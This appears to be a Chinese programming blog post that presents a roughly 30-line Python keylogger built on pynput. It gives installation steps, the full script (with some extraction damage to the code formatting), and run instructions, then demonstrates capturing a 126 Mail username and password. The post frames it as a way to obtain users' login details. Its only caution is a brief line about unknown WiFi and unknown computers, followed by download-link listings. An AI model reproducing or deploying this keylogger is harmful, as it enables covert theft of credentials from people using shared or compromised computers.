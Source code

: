 
--- 
title:  python你TM太皮了——区区30行代码就能记录键盘的一举一动 
tags: []
categories: [] 

---
### 先看看效果

**Like This↓**

<img alt="图片" src="https://img-blog.csdnimg.cn/img_convert/d1ae14c35ebb6f15cae9ae8d3b4a57f8.gif">

### **一、公共WiFi 公用电脑什么的**

在我们日常在线上工作、玩耍时，不论开电脑、登录淘宝、玩网游

统统都会用到键盘输入

在几乎所有网站，例如淘宝、百度、126邮箱等等

为了保护用户信息

登录时，输入框都是不可见的。

但是，输入框都在界面上隐藏，让我们看不到，就能真正的确保万无一失吗？

<img alt="图片" src="https://img-blog.csdnimg.cn/img_convert/16d90f5cb4368a27db5830222a8223af.png">



#### **二、键盘记录器**

今天介绍一种，通过键盘记录的方法，获取用户通过键盘输入的所有信息**。**

**并实现获取126邮箱的登录用户信息。**

<img alt="图片" src="https://img-blog.csdnimg.cn/img_convert/d9c40a17155608f8d58bd340ef1f471b.png">



### **三、python代码实现**



#### **1、安装pynput模块**

```
PS C:\WINDOWS\system32&gt; pip install pynput            Collecting pynput</code>`  Downloading pynput-1.7.2-py2.py3-none-any.whl (99 kB)``     |████████████████████████████████| 99 kB 51 kB/s``Requirement already satisfied: six in d:\python36\lib\site-packages (from pynput) (1.12.0)``Installing collected packages: pynput``Successfully installed pynput-1.7.2`<code>PS C:\WINDOWS\system32&gt;
```

<img alt="图片" src="https://img-blog.csdnimg.cn/img_convert/0b4f5b7e8311f4d6007e3ede387895d0.png">



#### **2、脚本完整代码**

```
# -*- coding:utf-8 -*-  </code>`from pynput.keyboard import Key, Controller,Listener``import time``keyboard = Controller()``keys=[]``def on_press(key):``    string = str(key).replace("'","")`
`def on_release(key):``    global keys``    string = str(key).replace("'","")``    keys.append('\r'+string)``    main_string = "".join(keys)``    print(main_string)``    if len(main_string)&gt;15:``      with open('D:\keys.txt', 'a') as f:``          f.write(main_string)   ``          keys= []    ``with Listener(on_press=on_press,on_release=on_release) as listener:`<code>    listener.join()
```



#### **3、启动脚本**

将脚本放置在电脑的某个路径下，运行该程序；所有的键盘输入，都会被记录在相同目录下的keys.txt文档中。

```
PS D:\test&gt; python .\keyRecord.py
```

<img alt="图片" src="https://img-blog.csdnimg.cn/img_convert/b63d655e70e701345f4f824ec45bd4c3.gif">



#### **4、登录126邮箱 抓取用户信息**



**在脚本运行状态下，登录126邮箱，可以看到，通过键盘输入的信息都被写入到了keys.txt文档中，包括用户名输完之后的tab按钮和确定enter登录按钮**

<img alt="图片" height="466" src="https://img-blog.csdnimg.cn/img_convert/d1ae14c35ebb6f15cae9ae8d3b4a57f8.gif" width="486">



### **四、安全提示**

陌生WiFi不要随便连

陌生电脑不要随便用

emmmm~~~~

###   推荐阅读

#### JDK资源合集
- 【JDK5】jdk1.5x64位 windows版.zip- - 【JDK6】jdk-6u45-windows-x64 jdk1.6 64位 Windows版- - 【JDK7】jdk-7u72-windows-i586-32位- - 【JDK8】jdk-8u131-linux-x64.tar.gz- - 【JDK8】jdk-8u131-linux-x64.tar.gz- 
#### MySql数据库资源
- mysql 5.7 64位安装包 windows版- - mysql5.7 64位安装包 Linux版- 
#### **Oracle数据库补丁合集**
- 【Oracle数据库官方下载】 OPatch补丁工具20.0+版本- 
#### **Oracle客户端工具**
- oracle-instantclient19.6-basic-19.6.0.0.0-1.x86_64 rpm包合集- - Oracle客户端x32位 windows版.zip- 
#### **Oracle数据库合集【Linux+Windows】**
- Oracle10g数据库 Windows32位+Linux32位 合集- - Oracle数据库10gx32位安装包 Linux版+client客户端- - Oracle数据库11gx64位安装包 Linux版- - Oracle数据库11gx64位+Windows版安装包+Oracle客户端+Plsql工具- - Oracle 11G 11.2.0.3 客户端 for windows 64位- - oracle 11g Linux64位安装包- - oracle 11g Linux64位安装包- - Linux版Oracle11g x32位 数据库安装包- - spotlight_for_oracle_rac.5.0.1.1022.zip- - Linux_Oracle客户端全部rpm包- - Oracle12c客户端+plsql12- - **Java实现照片GPS定位【完整脚本】**- - **Python实现照片GPS定位【完整脚本】**- - **女神忘记相册密码 python20行代码打开【完整脚本】**- - ****- 
**python实战**
- ****- ****- **...**- ****- ****- ****
**【pygame开发实战开发30例 完整源码】**
- 
**【pygame游戏开发专栏，获取完整源码+教程】**
- ****- ****- ****- ****- ** **- ****
#### CSDN官方学习推荐 ↓ ↓ ↓
- **CSDN出的Python全栈知识图谱，太强了，推荐给大家！**
<img alt="" height="625" src="https://img-blog.csdnimg.cn/20210607120133619.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjM1MDIxMg==,size_16,color_FFFFFF,t_70" width="351">
